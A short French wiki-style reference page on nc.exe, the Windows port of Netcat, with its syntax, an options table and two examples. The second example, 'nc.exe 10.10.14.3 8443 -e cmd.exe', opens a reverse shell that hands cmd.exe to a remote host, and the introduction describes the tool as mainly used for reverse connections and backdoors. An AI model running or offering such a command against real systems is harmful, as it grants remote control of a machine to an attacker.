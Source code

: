 ```yaml
---
title: nc
description: Nc est la version disponible sur Windows de Netcat, Netcat est un utilitaire permettant d'ouvrir des connexions réseau, cet outil peut être utilisé pour de nombreux usages
published: true
date: 2024-07-16T17:11:02.149Z
tags: outil, cmd, windows, powershell
editor: markdown
dateCreated: 2024-07-12T16:56:06.120Z
---
```


# Introduction

Nc est la version disponible sur Windows de Netcat, Netcat est un puissant outil permetttant l'écoute de ports ou encore l'ouverture de connexion réseau, cet outil est principalement utilisé pour se connecter à une une connexion inverse ou backdoor, mais il a d'autres nombreux usages.

> Nc est disponible au téléchargement ici: https://github.com/int0x33/nc.exe/
> {.is-info}

# Syntaxe

`nc.exe [ip/port/les deux] [options]`

# Options

| Option          | Description                                                         |
| --------------- | ------------------------------------------------------------------- |
| `-l`            | Mode écoute (listen), attendre une connexion entrante               |
| `-v`            | Mode verbose, affiche des informations supplémentaires              |
| `-p [port]`     | Spécifie un port d'écoute et aussi là où la connexion est transmise |
| `-e [commande]` | Spécifie la commande à éxectuer lorsqu'une transmission est établie |

# Exemples

Écoute sur sur le port 8080

`nc.exe -l -p 8080`

Envoi une connexion vers l'ip 10.10.14.3 sur le port 8443 qui éxecutera "cmd.exe" lors de l'établissement de la connexion

`nc.exe 10.10.14.3 8443 -e cmd.exe`
